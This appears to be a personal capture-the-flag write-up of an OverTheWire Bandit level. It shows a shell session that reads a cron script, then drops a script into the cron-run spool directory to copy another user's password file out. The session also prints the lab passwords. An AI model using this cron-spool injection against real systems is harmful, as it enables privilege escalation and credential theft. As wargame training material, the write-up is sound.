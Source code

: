 
## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

## Datos de acceso al nivel
Servidor: bandit9@bandit.labs.overthewire.org -p 2220
Constraseña del nivel:bandit23 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

## Solución
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
bandit23@bandit:~$ mktemp -d
/tmp/tmp.Xh9c5GpR3S
bandit23@bandit:~$ chmod 777 /tmp/tmp.Xh9c5GpR3S
bandit23@bandit:~$ cd /tmp/tmp.Xh9c5GpR3S
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ echo "cat /etc/bandit_pass/bandit24 > /tmp/tmp.Xh9c5GpR3S/password" > script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.Xh9c5GpR3S/password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ touch password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ chmod 777 password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4026 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rw-rw-r--    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ chmod 777 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4027 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ pwd
/tmp/tmp.Xh9c5GpR3S
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4029 root     root     11063296 Sep  4 16:37 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.Xh9c5GpR3S/password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ date
Wed Sep  4 04:38:09 PM UTC 2024
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ date
Wed Sep  4 04:38:24 PM UTC 2024
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ date
Wed Sep  4 04:38:37 PM UTC 2024
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$
## Notas adicionales
mktemp -d
## Referencias
https://youtu.be/kMp_-ePwEC4?si=fJoHyB4vu_arEoW1 y chatGPT


